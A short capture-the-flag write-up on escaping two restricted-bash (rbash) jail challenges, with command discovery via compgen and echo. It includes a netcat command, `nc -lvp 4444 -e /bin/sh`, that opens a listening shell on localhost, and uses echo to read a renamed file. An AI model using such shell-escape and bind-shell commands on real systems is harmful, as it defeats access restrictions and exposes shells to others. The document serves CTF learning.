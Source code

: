 # jail

## rbash warmup
> Solved By : thewhiteh4t

we can use `compgen` to check for available commands

```
compgen -c
```

![](https://i.imgur.com/bLD71b6.png)


another way is to use `echo`


![](https://i.imgur.com/chEZt6C.png)


now the known way of escaping with `nc` is by getting a shell on our “attacker” box but in this challenge we are not allowed to connect to remote machines so we are left with localhost

actually this is more easy…

```
nc -lvp 4444 -e /bin/sh &
```

![](https://i.imgur.com/DmtwlOo.png)


now we can connect to it !


![](https://i.imgur.com/JiBB1By.png)

----------


## rbash yet another calculator
> Solved By : thewhiteh4t

challenge mentions that filename has been changed this time but it is in the same working directory

so we can again use echo to check the file name

![](https://i.imgur.com/cViiit2.png)


just google “echo read file”


![](https://i.imgur.com/PybHNWT.png)
